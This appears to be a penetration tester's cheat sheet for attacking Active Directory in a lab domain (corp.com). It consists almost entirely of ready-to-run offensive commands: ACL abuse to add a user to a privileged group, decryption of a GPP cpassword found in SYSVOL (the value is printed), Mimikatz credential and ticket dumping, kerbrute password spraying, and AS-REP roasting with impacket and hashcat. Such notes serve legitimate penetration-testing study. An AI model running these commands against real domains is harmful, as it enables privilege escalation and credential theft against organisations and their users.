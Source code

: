 ### Enumerating Object Permissions
```
GenericAll: Full permissions on object
GenericWrite: Edit certain attributes on the object
WriteOwner: Change ownership of the object
WriteDACL: Edit ACE's applied to object
AllExtendedRights: Change password, reset password, etc.
ForceChangePassword: Password change for object
Self (Self-Membership): Add ourselves to for example a group
```

```
Get-ObjectAcl -Identity <user>
Convert-SidToName S-1-5-21-1987370270-658905905-1781884369-1104
Get-ObjectAcl -Identity "Management Department" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights
"S-1-5-21-1987370270-658905905-1781884369-512","S-1-5-21-1987370270-658905905-1781884369-1104","S-1-5-32-548","S-1-5-18","S-1-5-21-1987370270-658905905-1781884369-519" | Convert-SidToName

#exploit
net group "Management Department" <user> /add /domain
```
External site https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces
```
Get-ObjectAcl -SamAccountName delegate -ResolveGUIDs | ? {$_.ActiveDirectoryRights -eq "GenericAll"}
```
Powerview - https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters/powerview
```
Invoke-ACLScanner -ResolveGUIDs | select IdentityReferenceName, ObjectDN, ActiveDirectoryRights | fl
```
### Domain Shares
```
Find-DomainShare
ls \\dc1.corp.com\sysvol\corp.com\
cat \\dc1.corp.com\sysvol\corp.com\Policies\oldpolicy\old-policy-backup.xml     # Password cpassword="+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"
gpp-decrypt "+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"
```

### Mimikatz
```
privilege::debug
sekurlsa::logonpasswords

## Access the SMB
dir \\web04.corp.com\backup
sekurlsa::tickets                         # Group 0 - Ticket Granting Service and Group 2 - Ticket Granting Ticket
```
## Authentication Attack
### Password Spraying from Windows 
```
.\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!"
```
### AS-REP Roasting
```
impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/pete
hashcat --help | grep -i "Kerberos"
sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```